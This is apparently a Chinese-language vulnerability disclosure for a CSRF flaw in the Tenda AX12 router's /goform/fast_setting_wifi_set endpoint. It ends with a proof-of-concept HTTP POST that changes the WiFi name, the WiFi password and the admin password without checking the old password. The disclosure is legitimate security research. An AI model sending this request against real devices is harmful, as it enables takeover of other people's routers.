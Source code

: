 ## 漏洞描述 ##

设备：Tenda-AX12 V22.03.01.21_CN([https://www.tenda.com.cn/download/detail-3237.html](https://www.tenda.com.cn/download/detail-3237.html))

漏洞类型：跨站点请求伪造(CSRF)

攻击效果：设备恢复出厂设置，修改登录后台密码，修改WiFi名称

## 漏洞成因

这个漏洞发生在/goform/fast_setting_wifi_set接口下，这个接口实际上是设备恢复出厂设置后，重新设置WiFi名称，和密码的接口。
我们可以控制传入的web参数，来达到修改WiFi名称，修改密码的效果，并且在这个函数中，由于是重新设置的函数，所以并不会和先前的密码进行对比。

这个接口对应的处理函数sub_4335C0。

先是获取ssid，判断是否为空，然后如果WiFi密码不为空，默认以psk-mixed方式加密，然后将WiFi名，加密方式，密码给到v17，然后调用tapi_set_wificfg，猜测应该是在设置WiFi密码吧，然后以同样的方式设置5g。
![](./image/1.png)

然后就是设置管理员密码了，先获取前端传入的参数loginPwd，然后设置到/etc/config/admin文件中，下面是一些无关紧要的if判断，感觉没什么作用，而且管理员密码已经写入到了admin文件中。
![](./image/2.png)



## POC

如果在有一次有效cookie的前提下，我们完全可以构造参数，来达到修改WiFi名称密码，以及管理员密码的目的。

```http
POST /goform/fast_setting_wifi_set HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 10
Origin: http://192.168.0.1
Connection: close
Cookie: password=xxxxxxxxxx
Referer: http://192.168.0.1/main.html

ssid=xxx&WrlPassword=xxx&power=high&loginPwd=(md5(xxx))
```

